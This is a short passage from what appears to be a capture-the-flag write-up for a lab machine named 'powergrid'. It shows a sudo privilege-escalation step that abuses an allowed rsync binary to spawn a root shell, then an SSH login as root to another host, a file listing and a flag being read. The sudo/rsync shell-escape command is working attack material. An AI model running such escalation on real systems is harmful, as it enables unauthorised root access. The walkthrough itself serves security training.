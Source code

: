 -  sudo \-l
-  rsync allowed \(GTFOBins\)
-  sudo rsync \-e 'sh \-c "sh 0\<\&2 1\>\&2"' 127\.0\.0\.1:/dev/null
# root

# ssh root@172\.17\.0\.1
ssh root@172\.17\.0\.1
Linux powergrid 4\.19\.0\-9\-amd64 #1 SMP Debian 4\.19\.118\-2 \(2020\-04\-29\) x86\_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/\*/copyright\.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law\.
You have new mail\.
Last login: Tue May 26 18:15:49 2020
root@powergrid:~# ls
ls
chown\.sh   flag4\.txt   malware\.php  'ystemctl status docker'
root@powergrid:~# cat flag4\.txt 